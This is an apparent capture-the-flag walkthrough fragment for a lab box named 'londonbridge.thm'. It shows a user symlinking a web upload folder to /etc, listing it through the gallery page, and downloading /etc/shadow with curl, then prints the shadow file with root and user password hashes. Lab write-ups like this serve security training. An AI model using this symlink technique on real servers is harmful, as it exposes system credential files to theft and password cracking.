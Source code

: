 ```bash
beth@london:~$ ln -s /etc uploads
beth@london:~$ ls -la uploads
lrwxrwxrwx 1 beth beth 4 Oct  2 00:26 uploads -> /etc
beth@london:~$ 
```

`curl -iLX GET http://londonbridge.thm:8080/gallery`

```bash
[REDACTED] - MORE

        
            <img class="image" src="/uploads/ld.so.cache" alt="ld.so.cache">
        
            <img class="image" src="/uploads/locale.alias" alt="locale.alias">
        
            <img class="image" src="/uploads/cron.hourly" alt="cron.hourly">
        
            <img class="image" src="/uploads/debian_version" alt="debian_version">
        
            <img class="image" src="/uploads/shadow-" alt="shadow-">
        
            <img class="image" src="/uploads/securetty" alt="securetty">
        
            <img class="image" src="/uploads/passwd-" alt="passwd-">
        
            <img class="image" src="/uploads/lsb-release" alt="lsb-release">
        
            <img class="image" src="/uploads/update-motd.d" alt="update-motd.d">

[REDACTED] - MORE
```

`curl -X GET http://londonbridge.thm:8080/uploads/shadow -o shadowssystem.txt`

```bash
root:$6$MuyQc/EB$TJ0f4UvSAQ/e8N2ehICim6KRPqsD2RBqQHRtaxluPLxeWazD3PU5RCc35JR62gKK6WvpA9v0r73jswtU4KSLU/:19792:0:99999:7:::
daemon:*:18484:0:99999:7:::
bin:*:18484:0:99999:7:::
sys:*:18484:0:99999:7:::
sync:*:18484:0:99999:7:::
games:*:18484:0:99999:7:::
man:*:18484:0:99999:7:::
lp:*:18484:0:99999:7:::
mail:*:18484:0:99999:7:::
news:*:18484:0:99999:7:::
uucp:*:18484:0:99999:7:::
proxy:*:18484:0:99999:7:::
www-data:*:18484:0:99999:7:::
backup:*:18484:0:99999:7:::
list:*:18484:0:99999:7:::
irc:*:18484:0:99999:7:::
gnats:*:18484:0:99999:7:::
nobody:*:18484:0:99999:7:::
systemd-network:*:18484:0:99999:7:::
systemd-resolve:*:18484:0:99999:7:::
syslog:*:18484:0:99999:7:::
messagebus:*:18484:0:99999:7:::
_apt:*:18484:0:99999:7:::
uuidd:*:19616:0:99999:7:::
beth:$6$A/tivpZQ$Cgshl0A8kvAR08NLdpSeeZwimPLbipJ.KrVuWVOvKu8AT7cl8b1J5.2VvaS0fu8sa74Jd7pdNpqN/gmFLOC6W.:19807:0:99999:7:::
sshd:*:19616:0:99999:7:::
```